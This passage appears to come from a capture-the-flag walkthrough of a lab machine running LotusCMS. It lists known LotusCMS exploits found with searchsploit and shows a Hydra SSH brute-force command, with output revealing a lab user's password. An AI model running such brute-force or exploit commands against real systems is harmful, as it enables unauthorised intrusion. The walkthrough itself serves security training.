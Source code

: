 More details: https://www.htbridge.com/advisory/HTB22883  

#### **LotusCMS**

You might've figured out already, there's a CMS serving data for the website called LotusCMS, it also happens to have very serious vulnerabilities:  

```console
root@kali:~# searchsploit lotuscms  
----------------------------------------------------------------------------------------- ----------------------------------  
 Exploit Title                                                                           |  Path  
                                                                                         | (/usr/share/exploitdb/platforms)  
----------------------------------------------------------------------------------------- ----------------------------------  
LotusCMS 3.0 - eval() Remote Command Execution (Metasploit)"                             | /php/remote/18565.rb  
LotusCMS 3.0.3 - Multiple Vulnerabilities"                                               | /php/webapps/16982.txt  
----------------------------------------------------------------------------------------- ----------------------------------  
```
  
Getting a shell out of this vulnerability in action is here.  

_____________________________________________________________________________

## 3\. Getting a shell!

#### Method 1: Bruteforcing SSH for loneferret

We already know the user exists via a blog post mentioned earlier.

  
IMPORTANT:_ When running `hydra`, make sure you include `-t 4` parameter, otherwise the service could get overloaded and not all passwords will be tested properly.  

```console
root@kali:~# hydra -e nsr -l loneferret -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 192.168.1.70 ssh -t 4  
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
  
Hydra (http://www.thc.org/thc-hydra) starting at 2016-12-21 23:02:32  
[DATA] max 4 tasks per 1 server, overall 64 tasks, 100003 login tries (l:1/p:100003), ~390 tries per task  
[DATA] attacking service ssh on port 22  
[22][ssh] host: 192.168.1.70   login: loneferret   password: starwars  
1 of 1 target successfully completed, 1 valid password found  
Hydra (http://www.thc.org/thc-hydra) finished at 2016-12-21 23:03:27  
```
  
We did find a valid login! Are there other ways to get a shell?  
  
